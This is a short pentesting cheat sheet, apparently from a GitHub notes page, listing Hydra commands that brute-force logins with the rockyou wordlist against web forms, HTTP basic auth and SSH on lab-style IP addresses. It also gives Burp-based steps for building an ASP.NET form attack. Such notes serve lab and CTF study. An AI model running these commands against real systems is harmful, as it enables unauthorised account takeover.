 - - -
### HYDRA : 🐲️ 🐉️ 🀄️ 🐉️ 

```sh
hydra -l username -P password_list IP_ADDR -V http-post-form '/path login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 25 
```

```sh
hydra -l noob -P /usr/share/wordlists/rockyou.txt -V 10.10.222.48 -s 8000 http-post-form '/login:username=^USER^&password=^PASS^:Incorrect username / password !' 
```

```sh
hydra -l bob -P /opt/rockyou.txt  -f  10.10.231.52  http-get  /protected/  
```

```sh
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111 -I 
```

```sh
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
```

```sh
hydra -l meliodas -P /opt/rockyou.txt ssh://10.10.89.136 
```


- - -
##### HTTP-Post-Form ( Step By Step )

- Capture the request in burp. send to reapeter.
- Select the post data then send to decoder and decode with URL option. 
- Now open meyerweb and encode every data one by one. ( Dont't do double encode ) 

```sh
hydra -f -l admin -P /usr/share/wordlists/rockyou.txt 10.10.23.48 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=qN0IByUIbUyK4RM7yM/+uuUXYaWdaU6Hed7NQyrTm2I48Vwdn1ZQ1x6pZMJfd6lxoDAMtkudA6aOGPZjpqEbSQY6wWQ4u8YSIhmC52K+oXtFpZ2HDbi1Odsntjs+nyfOQVfUjGP1xBWN9iJ2pYH7oAdAM/4DyM4/MojDAFMiQUb0JqO43cYWNG1FOnRO3yxwibNsNpA2yqI61MEnNQC6TmoUDqUd0kpek86BCYTu8mTkYIT9GTYZwSp41y7tFZbUea33/AqpcUvP1GqtNA8P3kjYZ+XH6EUxaPjZPiE641UQ0Kebn6IAB//UhzFIBtNDB+ixNCHnQ4yA/RZC3Fs7OmsbeRQmJWKL8OMk1WxG6t5BRFgb&__EVENTVALIDATION=nCK09WZRBH9Wpl6yLGmGe98QNQ3yzHjr5VL08e7kXJOlkaA0GtyvMmiSV3GhyMghl+0CdtWyzNdmW3yrR6GHAad6NTHmGi8pWNFxaj8FTsDtnumDp2dm3yKYmY1mDceKCkWlyLa2sH0lR33k58wymAiRlpLW0bUbpSg7ZYy7nrlor+0h&ctl00$MainContent$LoginUser$UserName=^USER^&ctl00$MainContent$LoginUser$Password=^PASS^&ctl00$MainContent$LoginUser$LoginButton=Log+in:Login failed'
```

